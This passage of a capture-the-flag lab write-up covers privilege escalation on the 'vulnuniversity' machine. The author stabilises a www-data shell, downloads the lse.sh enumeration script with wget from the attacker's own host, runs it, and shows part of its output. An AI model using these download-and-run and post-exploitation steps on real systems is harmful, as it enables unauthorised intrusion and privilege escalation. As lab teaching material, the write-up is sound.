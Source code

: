 
## PrivEsc
Now we have a shell as `www-data` user. It time to escalate the privileges to root.
Stabilize the shell with
```
/usr/bin/script -qc /bin/bash /dev/null
```
We will use [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) for that.
Clone the repo, copy the `lse.sh` into the folder and start a SimpleHTTPServer with python.
Wget the file from your machine, add the rights to run it.
```
www-data@vulnuniversity:/tmp$ wget http://10.11.19.53/lse.sh
wget http://10.11.19.53/lse.sh
--2020-10-06 11:47:35--  http://10.11.19.53/lse.sh
Connecting to 10.11.19.53:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 37926 (37K) [text/x-sh]
Saving to: 'lse.sh'

lse.sh              100%[===================>]  37.04K  --.-KB/s    in 0.1s    

2020-10-06 11:47:35 (385 KB/s) - 'lse.sh' saved [37926/37926]

www-data@vulnuniversity:/tmp$ chmod +x lse.sh
chmod +x lse.sh
www-data@vulnuniversity:/tmp$ ./lse.sh

```

The short version of `lse.sh` output:
```
LSE Version: 2.5                                                                                                                                                                                                                          

       User: www-data
    User ID: 33
   Password: ******
       Home: /var/www
       Path: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
      umask: 0000

   Hostname: vulnuniversity
      Linux: 4.4.0-142-generic
Distribution: Ubuntu 16.04.6 LTS
Architecture: x86_64

==================================================================( users )=====
[i] usr000 Current user groups............................................. yes!
[*] usr010 Is current user in an administrative group?..................... nope
[*] usr020 Are there other users in an administrative groups?.............. yes!
[*] usr030 Other users with shell.......................................... yes!
[i] usr040 Environment information......................................... skip
[i] usr050 Groups for other users.......................................... skip                                                                                                                                                           
[i] usr060 Other users..................................................... skip                                                                                                                                                           
[*] usr070 PATH variables defined inside /etc.............................. yes!                                                                                                                                                           
[!] usr080 Is '.' in a PATH variable defined inside /etc?.................. nope
```
